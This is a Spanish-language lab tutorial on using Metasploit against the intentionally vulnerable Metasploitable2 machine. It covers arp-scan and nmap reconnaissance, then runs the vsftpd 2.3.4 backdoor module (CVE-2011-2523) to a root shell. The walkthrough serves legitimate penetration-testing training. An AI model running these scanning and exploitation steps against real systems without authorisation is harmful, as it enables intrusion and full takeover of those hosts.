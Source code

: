 # Uso Básico de Metasploit – Explotación vsftpd en Linux

**Vamos a usar la maquina virtual vulnerable Metasploitable2 se trata de una máquina que presenta multitud de vulnerabilidades, lo que nos permite practicar pentesting de una forma sencilla.**

![image.png](image.png)

En nuestra maquina Linux hacemos un **arp-scan para ver que equipos hay en nuestra red** local.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](image%201.png)

- En este caso tenemos dos IPs que que pueden ser nuestro maquina victima. V**amos a hacer una traza "ICMP Echo Request” mediante un Ping** y veremos su respuesta a la  verificación si ese dispositivo está accesible en la red . Y **mediante el TTL de respuesta** intentar **saber de que dispositivos se tratan**.
    
    ```bash
    ping -c 1 10.0.3.3
    ```
    
    ![image.png](image%202.png)
    

```bash
ping -c 1 10.0.3.7
```

![image.png](image%203.png)

Como vemos en la **IP 10.0.3.3 el TTL es 255, a**lgunos **dispositivos de red** suelen usar TTL  255 como TTL inicial predeterminado. 

**IP 10.0.3.7 el TTL es 64, a**lgunos **dispositivos Linux** usan 64 como TTL inicial predeterminado.

- Seguidamente después de localizar la IP de nuestra maquina victima . Vamos a hacer un **reconocimiento de puertos con NMAP**.
    
    ```bash
    nmap -p- --open -sS -sC -sV -min-rate 2000 -n -vvv -Pn 10.0.3.7 -oN escaneo
    ```
    
    ![image.png](image%204.png)
    

Como vemos esta maquina tiene muchos puerto abiertos (Mirar Apéndice: Puertos y Servicios más Comunes). 

Vamos a escoger por ejemplo el **puerto 21 que es donde corre el FTP**.

![image.png](image%205.png)

Probamos si tiene alguna vulnerabilidad.

```bash
nmap --script "vuln" -p21 10.0.3.7
```

![image.png](image%206.png)

- Abrimos el Metasploit
    
    ![image.png](image%207.png)
    

Buscamos la vulnerabilidad a través del CVE

`search CVE-2011-2523`

![image.png](image%208.png)

Nos encontramos que no encuentra nada. Esto puede ser por varias razones, a veces dentro del exploit no viene con con el CVE y si viene con el nombre del servicio. Debemos entonces buscar de otras formas por ejemplo vamos a buscar por el servicio y versión que esta corriendo en el puerto.

![image.png](image%209.png)

`search vsFTP 2.3.4`

![image.png](image%2010.png)

`use 0`

![image.png](image%2011.png)

`show options`

![image.png](image%2012.png)

Vamos a rellenar los parámetros obligatorios (si sabemos algún datos de los no obligatorios también debemos rellenarlo para mejorar la posibilidad de éxito).

`set RHOSTS 10.0.3.7`

`show options`

![image.png](image%2013.png)

**NOTA:** El servicio **FTP** por defecto corre en el puerto 21 pero puede darse el caso que en alguna maquina el servicio corra en otro puerto por tanto **debemos verificar que el puerto RPORT sea el correcto**.

Ejecutamos el exploit: `run`

![image.png](image%2014.png)

**NOTA:** Cuando hacemos una intrusión el puerto que se utiliza es un puerto al azar. El puerto 21 solo se utiliza para entrar.

Miramos que clase de usuario soy con el comando `whoami` y lanzamos una shell para movernos mejor.

`whoami`

`shell`

![image.png](image%2015.png)

**Ya estaríamos dentro con privilegios de Root**.